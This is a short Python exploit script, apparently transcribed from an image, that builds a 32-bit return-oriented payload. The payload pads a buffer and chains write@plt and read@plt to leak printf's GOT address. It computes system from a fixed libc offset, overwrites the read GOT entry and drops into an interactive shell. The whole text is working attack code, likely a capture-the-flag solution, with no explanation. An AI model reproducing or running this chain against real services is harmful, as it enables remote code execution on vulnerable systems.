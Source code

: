 ```python

leak_printf+="A"*12

leak_printf+= p32(write_plt)

leak_printf+= p32(pppr)

leak_printf+= p32(1)

leak_printf+= p32(printf_got)

leak_printf+= p32(4)

leak_printf+= p32(read_plt)

leak_printf+= p32(pppr)

leak_printf+= p32(0)

leak_printf+= p32(read_got)

leak_printf+= p32(4)

#leak_printf+= "\x90\x94\x04\x08"

leak_printf+= p32(read_plt)

leak_printf+=  'AAAA'

leak_printf+= p32(cmd)

s.sendline(leak_printf)

s.recvuntil("\tselect\t|\t\n")

s.sendline('4')

s.recvuntil("\t\tBYE BYE\n\n")

#s.sendline('/bin/sh\x00')

#print(hex(u32(s.recv(4))))

printf = u32(s.recv(4))

#print("[*]printf : 0x%x"%(printf))

system = (printf) -  0xe6e0

#print("[*]system : 0x%x"%system)

s.send(p32(system))

s.interactive()
```

